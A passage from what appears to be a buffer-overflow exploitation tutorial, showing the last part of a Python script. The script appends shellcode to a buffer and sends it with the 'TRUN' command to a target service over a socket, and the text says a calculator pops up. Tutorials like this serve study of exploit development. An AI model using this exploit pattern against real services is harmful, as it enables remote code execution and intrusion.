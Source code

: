 ```python
buff += b"%s" % shellcode   # add shellcode to buffer

try:
    print(f'[+] Sending buffer: {str(len(buff))} bytes')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(b"TRUN /.:/%s" % buff)
except RuntimeError as err:
    print(f'[!] Unable to connect to the application. {err}')
    sys.exit(0)
finally:
    s.close()
```

### Exploit

Now just run the script and if everything goes correctly we should be greeted by a friendly calculator.

![popped](images/BO_popped.png)
